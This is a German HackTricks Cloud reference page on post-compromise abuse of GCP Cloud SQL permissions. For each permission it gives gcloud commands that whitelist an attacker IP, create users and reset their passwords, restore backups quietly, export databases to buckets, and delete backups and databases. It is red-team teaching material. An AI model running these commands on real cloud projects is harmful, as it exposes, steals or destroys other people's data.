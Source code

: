 # GCP - Cloud SQL Nach der Kompromittierung

<details>

<summary><strong>Erlernen Sie das Hacken von AWS von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## Cloud SQL

Für weitere Informationen zu Cloud SQL siehe:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Um sich mit den Datenbanken zu verbinden, benötigen Sie lediglich Zugriff auf den Datenbankport und kennen den **Benutzernamen** und das **Passwort**, es gibt keine IAM-Anforderungen. Ein einfacher Weg, um Zugriff zu erhalten, vorausgesetzt, die Datenbank hat eine öffentliche IP-Adresse, besteht darin, die erlaubten Netzwerke zu aktualisieren und **Ihre eigene IP-Adresse zuzulassen, um darauf zuzugreifen**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Es ist auch möglich, **`--no-backup`** zu verwenden, um die Backups der Datenbank zu **unterbrechen**.

Da dies die Anforderungen sind, bin ich mir nicht ganz sicher, wofür die Berechtigungen **`cloudsql.instances.connect`** und **`cloudsql.instances.login`** sind. Wenn Sie es wissen, senden Sie einen PR!

### `cloudsql.users.list`

Erhalten Sie eine **Liste aller Benutzer** der Datenbank:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Diese Berechtigung ermöglicht es, **einen neuen Benutzer innerhalb** der Datenbank zu erstellen:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Diese Berechtigung ermöglicht es, **Benutzer innerhalb** der Datenbank zu aktualisieren. Zum Beispiel könnten Sie das Passwort ändern:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups können **alte sensible Informationen** enthalten, daher ist es interessant, sie zu überprüfen.\
**Stellen Sie ein Backup** innerhalb einer Datenbank wieder her:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Um dies auf eine unauffälligere Weise zu tun, wird empfohlen, eine neue SQL-Instanz zu erstellen und die Daten dort wiederherzustellen, anstatt dies in den aktuell laufenden Datenbanken zu tun.

### `cloudsql.backupRuns.delete`

Diese Berechtigung ermöglicht das Löschen von Backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportieren Sie eine Datenbank** in einen Cloud Storage-Bucket, damit Sie von dort darauf zugreifen können:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importiere eine Datenbank** (überschreiben) aus einem Cloud Storage-Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Löschen Sie eine Datenbank aus der DB-Instanz:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
